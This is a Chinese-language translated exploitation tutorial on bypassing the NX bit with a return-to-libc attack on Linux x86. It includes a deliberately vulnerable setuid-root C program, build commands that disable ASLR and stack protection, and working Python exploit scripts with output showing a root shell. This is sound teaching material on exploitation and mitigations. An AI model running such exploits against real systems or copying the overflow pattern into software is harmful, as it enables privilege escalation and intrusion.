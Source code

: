 CSysSec注： 本系列文章译自安全自由工作者Sploitfun的漏洞利用系列博客，从经典栈缓冲区漏洞利用堆漏洞利用，循序渐进，是初学者不可多得的好材料，本系列所有文章涉及的源码可以在这里找到。CSysSec计划在原基础上不断添加相关漏洞利用技术以及相应的Mitigation方法，欢迎推荐或自荐文章。  
转载本文请务必注明，文章出处：《[Linux(X86)漏洞利用系列-Return-to-libc绕过NX](http://www.csyssec.org/20161231/returntolibc/)》与作者信息：CSysSec出品  


VM Setup: Ubuntu 12.04 (x86)  

在前面的文章中，我们可以了解到，攻击者可以：  

将shellcode拷贝到栈中，再跳转到shellcode  
来达到成功利用漏洞代码的目的。 

因此，为了阻止攻击者的行为，安全研究人员开始利用“NX”比特位来缓解漏洞利用方法(exploit mitigation)。  

## 什么是NX比特位

这种漏洞利用缓解方法将指定内存区域设置为不可执行，并将可执行的区域设置为不可写。举个例子：数据段、栈和堆设置为不可执行，text段设置为不可写。  

设置NX位后，经典的栈缓冲区溢出无法利用其漏洞。那是因为，在经典的方法中，shellcode被拷贝到栈中，返回地址指向shellcode。然而，现在的情况是栈被设置位不可执行，漏洞利用(exploit)就会失败。 当然，这种缓解(mitigation)技术也不是完全安全的，这篇文章就来看看我们是如何绕过NX比特位的!!!  

漏洞代码： 下面这份代码基于前文中漏洞代码作了一点修改，我会在后文中讲述修改的必要性。  

``` c
 //vuln.c
#include <stdio.h>
#include <string.h>
int main(int argc, char* argv[]) {
 char buf[256]; /* [1] */ 
 strcpy(buf,argv[1]); /* [2] */
 printf("%s\n",buf); /* [3] */
 fflush(stdout);  /* [4] */
 return 0;
}
```
编译命令: 

``` bash
#echo 0 > /proc/sys/kernel/randomize_va_space
$gcc -g -fno-stack-protector -o vuln vuln.c
$sudo chown root vuln
$sudo chgrp root vuln
$sudo chmod +s vuln
```
注意: “-z exexstack”参数并没有传递给gcc，因此这时栈是不可执行的(Non eXecutable)，可以通过下述方法来验证：  

``` bash
$ readelf -l vuln
...
Program Headers:
 Type      Offset   VirtAddr   PhysAddr   FileSiz MemSiz  Flg Align
 PHDR      0x000034 0x08048034 0x08048034 0x00120 0x00120 R E 0x4
 INTERP    0x000154 0x08048154 0x08048154 0x00013 0x00013 R 0x1
 [Requesting program interpreter: /lib/ld-linux.so.2]
 LOAD      0x000000 0x08048000 0x08048000 0x00678 0x00678 R E 0x1000
 LOAD      0x000f14 0x08049f14 0x08049f14 0x00108 0x00118 RW 0x1000
 DYNAMIC   0x000f28 0x08049f28 0x08049f28 0x000c8 0x000c8 RW 0x4
 NOTE      0x000168 0x08048168 0x08048168 0x00044 0x00044 R 0x4
 ...
 GNU_STACK 0x000000 0x00000000 0x00000000 0x00000 0x00000 RW 0x4
 GNU_RELRO 0x000f14 0x08049f14 0x08049f14 0x000ec 0x000ec R 0x1
$
```
栈中只有RW标志位，并没有E标志位！ 

## 如何绕过NX比特位做到任意代码执行  

可以通过“return-to-libc”技术来绕过NX比特位。这里，返回地址被一种特殊的libc函数地址(而不是含有shellcode代码的栈地址)覆盖。举个例子，如果攻击者想触发一个shell, 他会利用system()地址来覆盖返回地址并设置好system()在栈中需要的必要参数，以便能成功调用system()。  

之前我们已经反汇编并画出了漏洞代码的栈布局，现在开始写个漏洞利用代码来绕过NX比特位吧！  

漏洞利用代码

``` python
#exp.py
#!/usr/bin/env python
import struct
from subprocess import call
#Since ALSR is disabled, libc base address would remain constant and hence we can easily find the function address we want by adding the offset to it. 
#For example system address = libc base address + system offset
#where 
       #libc base address = 0xb7e22000 (Constant address, it can also be obtained from cat /proc//maps)
       #system offset     = 0x0003f060 (obtained from "readelf -s /lib/i386-linux-gnu/libc.so.6 | grep system")
system = 0xb7e61060        #0xb7e2000+0x0003f060
exit = 0xb7e54be0          #0xb7e2000+0x00032be0
#system_arg points to 'sh' substring of 'fflush' string. 
#To spawn a shell, system argument should be 'sh' and hence this is the reason for adding line [4] in vuln.c. 
#But incase there is no 'sh' in vulnerable binary, we can take the other approach of pushing 'sh' string at the end of user input!!
system_arg = 0x804827d     #(obtained from hexdump output of the binary)
#endianess conversion
def conv(num):
 return struct.pack("<I",num)
buf = "A" * 268
buf += conv(system)
buf += conv(exit)
buf += conv(system_arg)
print "Calling vulnerable program"
call(["./vuln", buf])
```
执行上述漏洞利用代码，可以得到一个具有root权限的shell,如下图所示：  

``` bash
$ python exp.py 
Calling vulnerable program
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA`���K��}�
# id
uid=1000(sploitfun) gid=1000(sploitfun) euid=0(root) egid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),109(lpadmin),124(sambashare),1000(sploitfun)
# exit
$
```
太棒了，我们拿到了root shell! 但在实际应用程序中，root setuid 程序设置了最低权限准则，获取root shell并没那么容易！  

## 什么是最低权限准则

这种技术允许root setuid程序只有在需要的情况下才能获取root权限。也就是说，在需要时，root setuid程序拿到root 权限，不需要时就会丢弃已获取的权限。root setuid一般会在接收用户输入之前会丢弃root权限。因此，尽管用户输入是恶意的，攻击者也无法后去root shell。 举个例子，下面的漏洞代码不允许攻击者获取root shell。  

``` c
//vuln_priv.c
#include <stdio.h>
#include <string.h>
int main(int argc, char* argv[]) {
 char buf[256];
 seteuid(getuid()); /* Temporarily drop privileges */ 
 strcpy(buf,argv[1]);
 printf("%s\n",buf);
 fflush(stdout);
 return 0;
}
```
对于上述漏洞程序，当我们执行下面的漏洞利用代码时，无法获取root shell。  

``` python
#exp_priv.py
#!/usr/bin/env python
import struct
from subprocess import call
system = 0xb7e61060
exit = 0xb7e54be0
system_arg = 0x804829d
#endianess conversion
def conv(num):
 return struct.pack("<I",num)
buf = "A" * 268
buf += conv(system)
buf += conv(exit)
buf += conv(system_arg)
print "Calling vulnerable program"
call(["./vuln_priv", buf])
```
注意：exp_priv.py对exp.py稍作了一点修改！仅仅调整了system_arg变量  

``` bash
$ python exp_priv.py 
Calling vulnerable program
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA`���K川�
$ id
uid=1000(sploitfun) gid=1000(sploitfun) egid=0(root) groups=1000(sploitfun),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),109(lpadmin),124(sambashare)
$ rm /bin/ls
rm: remove write-protected regular file `/bin/ls'? y
rm: cannot remove `/bin/ls': Permission denied
$ exit
$
```
到这里就完事了吗？那该如何对应用最低权限准则的root setuid程序进行漏洞利用呢？  

## root setuid程序漏洞利用

针对漏洞代码(vuln_priv)，漏洞利用程序(exp_priv.py)调用system()再紧接着调用exit()还不足以获取root shell。 但如果能修改一下漏洞利用程序(exp_priv.py)，以下面的顺序调用libc函数：  
```
setuid(0)
system(“sh”)
exit()
```
这样一来我们就能获取root shell。 这种技术叫做return-to-libc链接(chaining)，将会在下一篇中讨论。 